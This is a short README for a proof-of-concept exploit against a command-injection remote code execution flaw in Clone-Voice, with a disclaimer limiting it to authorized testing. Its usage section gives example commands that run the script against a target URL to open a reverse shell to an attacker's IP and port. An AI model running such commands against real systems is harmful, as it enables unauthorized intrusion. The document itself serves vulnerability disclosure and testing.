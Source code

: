# Clone-Voice RCE Proof of Concept
This repository contains a Proof of Concept (PoC) script demonstrating a [RCE vulnerability in Clone-Voice](https://zeropath.com/blog/command-injection-vulnerability-clone-voice). **This tool is for educational and authorized testing purposes only.**

## Usage
### Reverse Shell
To attempt a reverse shell connection:
```
python3 clone_voice_rce_poc.py --url <target_url> --shell <your_ip> <your_port>
```
Example:
```
python3 clone_voice_rce_poc.py --url http://localhost:9000 --shell 192.168.1.100 4444
```

